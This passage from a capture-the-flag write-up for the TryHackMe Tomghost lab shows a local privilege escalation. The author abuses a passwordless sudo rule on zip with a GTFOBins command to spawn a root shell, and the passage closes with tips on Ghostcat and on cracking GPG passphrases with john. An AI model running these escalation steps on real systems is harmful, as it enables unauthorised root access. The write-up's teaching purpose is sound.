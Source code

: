 Now we can switch user to `merlin` using the obtained password and check the command that can be performed with `sudo` privilege:

```
skyfuck@ubuntu:~$ su merlin 
Password: 
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Here, we can we see that we can run the zip command as `root`. So, we can look for an exploit for `zip` on [GTFOBins](https://gtfobins.github.io/) and try to perform the steps as mentioned over there and replacing `zip` with `/usr/bin/zip`.

```
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# sudo rm $TF
rm: missing operand
Try 'rm --help' for more information.
# whoami
root
# cat /root/root.txt
```

With this, we escalated our privileges to root level and obtained the root flag!

## Some Key Points to Take Away

1. Always check Apache Tomcat for Ghostcat vulnerability.
2. Whenever you find a PGP and ASC file, try to decrypt the data using `gpg --import` and `gpg --decrypt`.
3. To crack ASC file passphrase use `gpg2john` and `john`.

### Links Referred

1. TryHackMe Tomghost: https://tryhackme.com/room/tomghost
2. Tenable Blog on Ghostcat Vulnerability: https://www.tenable.com/blog/cve-2020-1938-ghostcat-apache-tomcat-ajp-file-readinclusion-vulnerability-cnvd-2020-10487
3. Chaitin Tech Article and Gostcat Vulnerability Detection Tool: https://www.chaitin.cn/en/ghostcat
4. Ghostcat Exploit by 00theway on GitHub: https://github.com/00theway/Ghostcat-CNVD-2020-10487 
5. Decrypt PGP Using ASC Key: https://superuser.com/questions/46461/decrypt-pgp-file-using-asc-key
6. Recover Your GPG Passphrase Using JTR: https://www.ubuntuvibes.com/2012/10/recover-your-gpg-passphrase-using-john.html
7. John Repository on GitHub: https://github.com/openwall/john 
8. GTFOBins: https://gtfobins.github.io/